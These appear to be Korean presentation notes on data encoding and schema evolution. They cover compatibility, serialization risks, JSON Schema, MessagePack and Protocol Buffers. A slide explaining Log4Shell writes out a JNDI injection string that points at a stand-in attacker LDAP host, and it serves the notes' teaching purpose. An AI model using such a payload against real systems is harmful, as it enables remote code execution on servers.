






# CHAPTER 5 — Encoding and Evolution (발표용)

이번 5장은 **데이터를 어떻게 인코딩하고, 시간이 지나며 변화에 어떻게 대응하는가**에 대한 내용입니다.

> "모든 것은 변하고 멈춰 있는 것은 없다."  
> — 에페소스의 헤라클레이토스 (플라톤이 『크라틸로스』에서 인용, 기원전 360년)

---

## 슬라이드 1. 표지

**Chapter 5 — Encoding & Evolution**

데이터를 어떻게 인코딩하고, 시간이 지나며 변화에 어떻게 대응하는가

> "모든 것은 변하고 멈춰 있는 것은 없다."  
> — 에페소스의 헤라클레이토스, 플라톤 『크라틸로스』 (기원전 360년)

---

## 슬라이드 2. 변화는 필연이다

### 변화는 필연적이다

- 애플리케이션은 새 제품 출시, 기능 추가, 요구사항 변경 등으로 인해 **필연적으로 변합니다**.
- 그래서 우리는 변화에 쉽게 적응할 수 있는 시스템을 만들어야 합니다.

### 핵심 문제 — 코드 변경은 즉각적이지 않다

데이터 형식이나 스키마가 바뀌면 보통 애플리케이션 코드도 함께 바뀌어야 합니다. 하지만 큰 애플리케이션에서는 코드 변경이 즉각적으로 일어날 수 없습니다.

다양한 이유가 있는데 예를 들면:

- **서버 측 애플리케이션** — 롤링 업그레이드를 하고 싶을 수 있습니다. 한 번에 조금씩만 배포하여 점진적으로 전체 노드에 적용하는 방식입니다.
- **클라이언트 측 애플리케이션** — 사용자가 한동안 업데이트를 하지 않을 수 있습니다.

위와 같은 이유로 코드 변경이 즉각적으로 일어나지 않습니다.

### 결론 — 옛/새 버전이 공존한다

구 버전과 새 버전의 코드, 그리고 데이터 형식이 시스템에 **동시에 공존**할 수 있습니다. 따라서 시스템이 계속 돌아가려면 **양방향 호환성**을 유지해야 합니다.

- **하위 호환성 (Backward compatibility)**
  - 정의: 새 코드가 옛 코드가 생성한 데이터를 읽을 수 있음
- **상위 호환성 (Forward compatibility)**
  - 정의: 옛 코드가 새 코드가 생성한 데이터를 읽을 수 있음

이는 API의 맥락에서도 마찬가지입니다.

### 어느 쪽이 더 지키기 어려운가?

- **하위 호환성** → 보통 어렵지 않습니다. 새 코드의 작성자는 옛 코드가 쓴 데이터 형식을 이미 알고 있기 때문에 명시적으로 처리할 수 있습니다. 필요할 경우 옛 데이터를 읽는 코드를 그대로 유지할 수도 있습니다.
- **상위 호환성** → 보통 어렵습니다. 옛 코드가 새 버전이 추가한 것들을 무시할 수 있어야 하는데, 미래에 뭐가 추가될지 모르기 때문에 어렵습니다.

---

## 슬라이드 3. 상위 호환성의 함정

### 상위 호환성의 또 다른 함정



위 그림을 보면 다음과 같은 상황이 벌어집니다:

1. DB 스키마에 **새 필드**(photoURL)를 추가하고, 새 코드에서 이를 저장합니다.
2. 그런데 옛 코드의 Person 클래스에는 photoURL 필드가 없습니다.
3. 만약 옛 코드가 이 레코드를 수정해서 다시 쓰면 어떻게 될까요?

- **바람직한 동작** — 옛 코드가 해석하지 못하더라도 새 필드를 **그대로 보존(keep intact)** 해야 합니다.
- **위험** — 만약 해당 필드가 존재하지 않는 옛 코드의 클래스로 디코딩되면, **데이터 손실**이 발생할 수 있습니다.

위와 같은 문제가 인코딩 형식을 평가하는 **핵심 기준** 중 하나가 됩니다.

### 이 장에서 다룰 내용

- **여러 인코딩 형식** — JSON, XML, Protocol Buffers, Avro
- **스키마 변경 대응** — 각 형식이 스키마 변경을 어떻게 다루는지, 옛/새 데이터 및 코드의 공존을 어떻게 지원하는지
- **저장 & 통신** — 각 형식이 데이터 저장과 통신에 어떻게 쓰이는지

---

## 슬라이드 4. 애니메이션 · 호환성 시뮬레이터

옛 코드와 새 코드가 어떤 데이터를 만들고, 서로의 데이터를 어떻게 처리하는지 시나리오별로 시각화한 슬라이드입니다.

세 가지 시나리오를 살펴봅니다:

- **하위 호환성** — 새 코드가 옛 데이터를 읽을 때. 보통 어렵지 않습니다. 어떤 옛 형식이 있었는지 알고 있기 때문입니다.
- **상위 호환성** — 옛 코드가 새 데이터를 읽을 때. 어렵습니다. 옛 코드는 새 필드의 존재를 모르기 때문에, 적어도 **무시**할 수 있어야 합니다.
- **함정** — 옛 코드가 새 데이터를 읽어서 객체로 만들고, 수정해서 다시 쓰면 알지 못하는 필드가 **증발**해버립니다.

---

## 슬라이드 5. 인코딩 vs 디코딩 (1. Formats for Encoding Data)

### 프로그램이 데이터를 다루는 두 가지 형태

프로그램은 보통 두 가지 형태로 데이터를 다룹니다.

**① 인메모리 (In memory)**
- 데이터가 객체, 구조체, 리스트, 배열, 해시테이블 등으로 보관됩니다.
- CPU가 효율적으로 접근하고 조작하도록 최적화되어 있습니다 (보통 **포인터** 사용).

**② 파일에 쓰거나 네트워크로 보낼 때**
- 데이터를 **자기 완결적인(self-contained) 바이트 시퀀스**로 인코딩해야 합니다 (예: JSON 문서).
- 이렇게 인코딩된 바이트 시퀀스는 메모리에서 쓰던 자료구조와 상당히 다릅니다.

### 핵심

포인터는 *"이 프로세스의 메모리 주소(0x7ff...)"* 를 가리키는데, 이 주소는 다른 프로세스나 네트워크 영역 너머에는 아무 의미가 없습니다.

그래서 메모리 구조를 그대로 보낼 수 없고, **자기 완결적인(스스로 모든 정보를 담은) 형태**로 변환해야 합니다.

### 인코딩 vs 디코딩

두 표현 사이에는 번역(translation)이 필요합니다.

- **인코딩**
  - 방향: 메모리 표현 → 바이트 시퀀스
  - 다른 이름: serialization, marshalling
- **디코딩**
  - 방향: 바이트 시퀀스 → 메모리 표현
  - 다른 이름: parsing, deserialization, unmarshalling

### 인코딩/디코딩이 불필요한 경우

항상 인코딩/디코딩이 필요한 것은 아닙니다.

- **압축 데이터 직접 연산** — 데이터베이스가 디스크에서 로드한 압축 데이터에 직접 연산할 때
- **제로 카피(zero-copy) 데이터 형식** — 인코딩/디코딩 없이 그대로 사용하도록 설계된 형식 (예: Cap'n Proto, FlatBuffers)

하지만 대부분의 시스템이 이런 변환을 필요로 하기 때문에 수많은 라이브러리와 인코딩 형식이 존재합니다.

---

## 슬라이드 6. 언어별 형식 (1-1. Language-Specific Formats)

### 언어 내장 직렬화 기능

많은 프로그래밍 언어가 인메모리 객체를 인코딩하는 **내장 직렬화 기능**을 제공합니다.

- **Java** — `java.io.Serializable`
- **Python** — `pickle`
- **Ruby** — `Marshal`

이 외에 서드파티 라이브러리도 많습니다 (예: Java의 Kryo).

### 장점

- 최소한의 추가 코드로 인메모리 객체를 처리할 수 있습니다.

### 하지만 근본적인 문제가 있다

**① 특정 언어에 묶임 (Language lock-in)**
- 다른 언어로 그 데이터를 읽기 어렵습니다.
- 결과적으로 현재 프로그래밍 언어에 종속됩니다.
- 다른 언어를 사용하는 시스템과 통합이 불가능합니다.

**② 보안 문제 (Security)**
- 같은 객체 타입으로 데이터를 복원하려면 디코딩 과정이 **임의의 클래스를 인스턴스화**할 수 있어야 합니다.
- 이것이 보안 문제의 원천이 됩니다.
  - 공격자가 애플리케이션에 임의의 클래스를 인스턴스화할 여지가 생기고, 이것이 악용될 수 있습니다.
  - 예시: [CVE-2019-12384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12384)

**③ 버전 관리가 뒷전 (Versioning as afterthought)**
- 이 라이브러리들은 데이터 버전 관리는 뒷전으로 두는 경향이 있습니다.
- 빠르고 쉬운 인코딩 처리가 목적이라, 상위/하위 호환성이라는 까다로운 문제를 소홀히 합니다.

**④ 효율성도 뒷전 (Efficiency as afterthought)**
- 효율성(인코딩/디코딩에 드는 CPU 시간, 인코딩된 구조의 크기)도 종종 뒷전입니다.
- 특히 Java의 내장 직렬화가 성능과 크기 면에서 비효율적이라고 알려져 있습니다.

### 결론

위와 같은 이유들 때문에 언어 내장 인코딩을 **일시적인(transient) 목적** 외에 사용하는 것은 좋은 생각이 아닙니다.

여기서 일시적인 목적은 *잠깐 메모리에 임시로 캐싱* 하는 등의 휘발적 용도를 의미합니다.

---

## 슬라이드 7. Log4Shell 사례 — 임의 클래스 인스턴스화

2021년 12월 발생한 **Log4Shell 취약점**도 공격자가 원하는 클래스를 인스턴스화하게 만든 것이 핵심 원인이었습니다.

### 1단계 — Log4j가 로그 문자열을 해석

Log4j에는 로그 메시지 안의 특정 패턴을 치환해주는 **"lookup" 기능**이 있습니다. 예를 들어 `${java:version}`을 로그에 찍으면 자바 버전 문자열로 바꿔주는 식입니다.

공격자가 아이디 입력란이나 HTTP 헤더에 `${jndi:ldap://attacker.com/x}` 라고 적어 넣으면, Log4j가 이 패턴의 해석을 시도합니다.

### 2단계 — JNDI가 외부 서버를 조회

**JNDI**(Java Naming and Directory Interface)는 자바가 이름으로 객체를 찾아오는 표준 API입니다.

`ldap://attacker.com/x`를 만나면 Log4j는 JNDI를 통해 공격자가 통제하는 LDAP 서버에 "x라는 객체 정보 좀 줘"라고 요청합니다.

### 3단계 — 여기서 임의 클래스 인스턴스화가 발생

당시 JNDI 구현은 이 응답을 받으면 그 원격 클래스 파일을 다운로드해서 로딩하고 **인스턴스화**하도록 동작했습니다.

객체를 만드는 과정(생성자나 초기화 블록)에 공격자가 심어둔 코드가 들어 있으면, 그게 서버에서 그대로 실행되었습니다.

### 교훈

디코딩이 임의 클래스를 만들 수 있는 자유를 갖는 순간, 그 자유는 곧 **공격면(attack surface)** 이 됩니다.

---

## 슬라이드 8. JSON, XML, CSV (1-2. JSON, XML, and Binary Variants)

여러 프로그래밍 언어가 읽고 쓸 수 있는 표준 인코딩으로 가면, **JSON과 XML**이 명백한 후보입니다.

CSV도 인기 있는 언어 독립적 형식이지만, 중첩 없는 표 형태 데이터만 지원합니다.

### 텍스트 형식들의 문제점

**① XML — 너무 장황하고 복잡하다고 비판받음**

**② 숫자 인코딩의 모호함**
- **XML과 CSV** — 우연히 숫자로만 이루어진 문자열을 구분할 수 없습니다 (외부 스키마를 참조하지 않는 한).
- **JSON** — 문자열과 숫자는 구분합니다. 하지만 정수와 부동소수점을 구분하지 않고, 정밀도를 명시하지 않습니다.

그래서 큰 수에서 문제가 발생합니다:
- 2⁵³보다 큰 정수는 JSON에서 정확하게 표현할 수 없습니다.
- JavaScript처럼 부동소수점을 쓰는 언어에서 파싱하면 이런 숫자가 부정확해집니다.
- 예시) X(트위터)의 게시물 ID는 64비트 정수인데, JSON으로 인코딩하면 2⁵³보다 큰 수가 되어 정확하게 표현할 수 없습니다.
  - 그래서 한 번은 JSON 숫자로, 한 번은 십진 문자열로 두 번 인코딩합니다.

**③ 이진 문자열 미지원**
- JSON과 XML은 이진 문자열(문자 인코딩 없는 바이트 시퀀스)을 지원하지 않습니다.
- 우회책으로, 이진 데이터를 **Base64**로 텍스트 인코딩하여 처리하는 방법이 있습니다 (다만 편법적이고, 데이터 크기가 조금 증가합니다).

**④ 스키마가 강력하지만 복잡**
- XML과 JSON 스키마는 강력하지만 배우고 구현하기가 꽤 복잡합니다.

**⑤ CSV — 스키마 없음 + 모호함**
- CSV는 스키마가 전혀 없습니다. 각 행/열의 의미를 정의하는 건 애플리케이션의 몫입니다.
- 방식 자체도 모호합니다. 예를 들어 값에 쉼표나 개행문자가 있는 경우 — 이런 규칙이 공식적으로 명세화되어 있긴 해도, 모든 파서가 올바르게 구현하지는 않습니다.

### 그래도 충분히 좋다

위와 같은 문제가 있어도 충분히 좋습니다.

모든 사람들이 이런 형식에 동의만 한다면, 모양이 얼마나 예쁘고 효율적이냐는 별로 중요하지 않습니다. 보통 어려운 것은 **합의**이기 때문입니다.

---

## 슬라이드 9. JSON Schema

### 스키마란?

데이터의 올바른 해석을 위해 **"이 데이터가 올바른 구조인지"** 검증하기 위한 규칙입니다.

JSON Schema는 시스템 간 데이터 교환·저장 시 데이터를 모델링하는 방법으로 널리 채택되었습니다.
예) 웹 서비스의 API 명세, 데이터베이스 등

### 주요 기능

- **표준 원시 타입 포함** — string, number, integer, object, array, boolean, null
- **별도의 검증 명세** — 필드에 제약 조건을 덧씌울 수 있습니다. 예) port 필드는 최솟값 1, 최댓값 65535로 제한

### 개방형 vs 폐쇄형 콘텐츠 모델

JSON 스키마는 개방형과 폐쇄형 콘텐츠 모델 둘 다 갖습니다.

- **개방형 (open content model)** — 스키마에 정의되지 않은 필드가 허용됩니다 (상위 호환성 지원, 옛 코드가 모르는 새 필드를 허용).
- **폐쇄형 (closed content model)** — 명시적으로 정의된 필드만 허용됩니다.

기본값은 개방형입니다 (`additionalProperties`를 `false`로 설정하면 폐쇄형이 됩니다).

### 개방형 모델의 복잡성

개방형 모델은 복잡해질 수 있습니다.

예를 들어, (정수 → 문자열) 맵을 정의하고 싶다고 가정해봅시다. JSON 객체의 키는 **항상 문자열**이므로 정수 key 맵 타입이 없어 불가능해 보입니다.

이를 해결하기 위해 JSON 스키마를 다음과 같이 정의할 수 있습니다:

```json
{
  "$schema": "http://json-schema.org/draft-07/schema#",
  "type": "object",
  "patternProperties": {
    "^[0-9]+$": { "type": "string" }
  },
  "additionalProperties": false
}
```

- `^[0-9]+$` = "숫자로만 이루어진 키"
- `additionalProperties: false` = 그 외 다른 필드 금지 → 폐쇄형으로 만든 것

### 강력함의 대가

JSON Schema는 if/else 조건 로직, 명명된 타입(named types), 원격 스키마 참조 등을 지원하는 강력한 스키마 언어입니다.

하지만 이런 기능들은 **다루기 힘든 정의**를 만듭니다.
→ 결과적으로 **상위/하위 호환 방식으로 스키마를 진화시키는 것**이 어려워집니다. (뒤에서 다른 형식과 비교해보겠습니다.)

---

## 슬라이드 10. 이진 인코딩 도입 (Binary Encodings)

### 텍스트 형식은 공간 낭비가 크다

JSON, XML 형식은 이진 형식에 비하면 많은 공간을 차지합니다. 그래서 수많은 이진 인코딩이 개발되었습니다.

- **JSON 용** — MessagePack, CBOR, BSON, BJSON, UBJSON, BISON, Hessian, Smile, ...
- **XML 용** — Fast Infoset, ...

### 이런 이진 인코딩 형식들의 특징

- 더 압축적이고 종종 파싱도 빠릅니다.
- 하지만 어떤 것도 텍스트 버전인 JSON/XML만큼 널리 채택되지는 않았습니다. (보편적 합의 면에서 텍스트 형식의 강점을 이기지 못합니다.)

### 이진 JSON의 결정적 한계 — 여전히 필드 이름을 포함해야 한다

인코딩된 데이터 안에 **모든 객체 필드 이름**을 포함해야 합니다.

```json
{
 "userName": "Martin",
 "favoriteNumber": 1337,
 "interests": ["daydreaming", "hacking"]
}
```

예를 들어 위와 같은 JSON을 이진 인코딩 하더라도, `userName`, `favoriteNumber`, `interests`라는 문자열을 어딘가에 그대로 담아야 합니다.

---

## 슬라이드 11. MessagePack 예시

### MessagePack 예시 분석

위 JSON을 MessagePack으로 인코딩한 예시를 살펴봅시다.



### 각 바이트의 의미

- `0x83` — 객체(0x80)이고 필드가 3개(0x03) 있다는 뜻
- `0xa8` — 문자열(0xa0)이고 길이가 8바이트(0x08)라는 뜻
- 다음 8바이트 — 필드 이름 (`userName`)
- 다음 7바이트 — `0xa6` 접두사 + 필드 값 (`Martin`)
- ...

### 특징

- 길이가 미리 표시되므로 **문자열 끝을 알리는 마커나 이스케이프가 불필요**합니다.

### 결과 — 별로 안 줄었다

- MessagePack 인코딩 = **66바이트**
- 텍스트 JSON = **81바이트**

대부분의 JSON 이진 인코딩이 이와 비슷한 수준입니다.

이렇게 얻는 공간 이득 + 약간의 파싱 속도 향상보다 **사람이 읽기 편한 방식의 이점이 더 큽니다**.
(읽기 편함에서 오는 이점 > 공간 이득 + 파싱 속도 증가)

뒤에서 더 나은 인코딩들을 알아보겠습니다.

---

## 슬라이드 12. Protocol Buffers (1-3. Protocol Buffers)

### Protocol Buffers (=protobuf) 란?

- **Google**이 개발한 이진 인코딩 라이브러리
- Facebook이 개발한 **Thrift**와 유사
- **스키마 기반** 이진 인코딩

### 스키마가 필수

Protocol Buffers에서는 인코딩되는 모든 데이터에 **스키마**를 요구합니다.

앞에서 봤던 JSON을 인코딩하려면, **인터페이스 정의 언어(IDL, Interface Definition Language)** 로 스키마를 작성해야 합니다.

```protobuf
syntax = "proto3";
message Person {
  string user_name        = 1;
  int64  favorite_number  = 2;
  repeated string interests = 3;
}
```

### Protocol Buffers의 동작 흐름

1. 코드 생성 도구가 위와 같은 스키마 정의를 받아, **여러 프로그래밍 언어로 스키마를 구현하는 클래스를 생성**합니다.
2. 애플리케이션 코드가 이 클래스로 스키마를 따르는 레코드를 인코딩/디코딩합니다.

JSON Schema보다 매우 단순합니다. (각 레코드의 필드와 타입만 정의하며, 필드 값에 대한 제약은 지원하지 않습니다.)

### 핵심 차이 — 필드 이름 대신 필드 태그

핵심 차이는 **필드 이름 대신 필드 태그를 사용**한다는 점입니다.

| 형식 | 크기 |
|------|------|
| 텍스트 JSON | **81바이트** |
| MessagePack (이진 JSON) | **66바이트** |
| Protocol Buffers | **33바이트** |

---

## 슬라이드 13. 애니메이션 · 인코딩 크기 비교

같은 JSON 데이터에서 인코딩 방식에 따라 크기가 어떻게 달라지는지 시각화한 슬라이드입니다.

```json
{ "userName": "Martin", "favoriteNumber": 1337, "interests": ["daydreaming", "hacking"] }
```

### 왜 이렇게 작아졌는가?

필드 이름 대신 스키마에서 봤던 **태그 번호**를 사용하기 때문입니다.



### 추가 공간 절약 기법

- **타입과 태그 번호를 한 바이트에 packing**
- **가변 길이 정수(variable-length integer)** — 작은 수에는 적은 바이트를, 큰 수에는 더 많은 바이트를 사용해 절약 (예: 1337은 2바이트로 표현 가능)
- **`repeated` 키워드** — 필드가 단일 값이 아닌 값의 리스트임을 표시. 같은 필드 태그를 같은 레코드 안에서 반복 등장하는 것으로 표현합니다.

---

## 슬라이드 14. 필드 태그와 스키마 진화

스키마는 시간이 지나면서 반드시 변합니다 = **스키마 진화(schema evolution)**. 이때 양방향 호환성을 어떻게 유지할 수 있을까요?

### 예제에서 보았듯

- 인코딩된 레코드는 인코딩된 필드들을 **단순 연결**한 것입니다.
- 각 필드는 **태그 번호**로 식별되고, 데이터 타입이 주석됩니다.
- 값이 설정되지 않으면 인코딩에서 **생략**됩니다.

따라서 **필드 태그가 인코딩 데이터에서 가장 결정적**입니다.

### 필드 이름·태그 변경 가능성

- **필드 이름 변경** → 가능. 인코딩 데이터는 필드 이름을 참조하지 않습니다.
- **필드 태그 변경** → 불가능. 기존 모든 인코딩된 데이터가 무용지물이 됩니다.

### 새 필드 추가 (상위 호환성)

- 새 필드 추가 시 **새 태그 번호**를 부여합니다.
- 옛 코드가 새 코드가 쓴 데이터를 읽을 때, **인식하지 못하는 태그 번호를 만나면 무시**합니다.
- 이렇게 무시할 때 데이터 타입 주석 덕분에 몇 바이트를 건너뛸지 결정 가능합니다 → 인식 못하는 필드를 보존하는 게 가능합니다.
- 결론적으로, 옛 코드가 새 코드가 쓴 레코드를 읽을 수 있어서 **상위 호환성이 유지**됩니다.

### 옛 데이터 읽기 (하위 호환성)

- 각 필드가 고유 태그 번호를 가지므로, 새 코드는 **항상 옛 데이터를 읽을 수 있습니다** (태그 번호가 항상 같은 의미를 가지기 때문).
- 옛 데이터를 읽을 때 새 스키마에 추가된 필드는 **기본값**으로 채워집니다.
- 결론적으로, **하위 호환성이 유지**됩니다.

### 필드 제거

- 제거한 태그 번호를 다시 쓰면 **절대 안 됩니다** (해당 태그 번호를 사용하는 데이터가 남아 있을 수 있기 때문).
- 과거에 사용한 태그 번호를 스키마에 정의해 두어 잊지 않을 수 있습니다.

### 데이터 타입 변경

- 일부 타입은 가능하지만 **값이 잘릴 위험**이 있습니다.
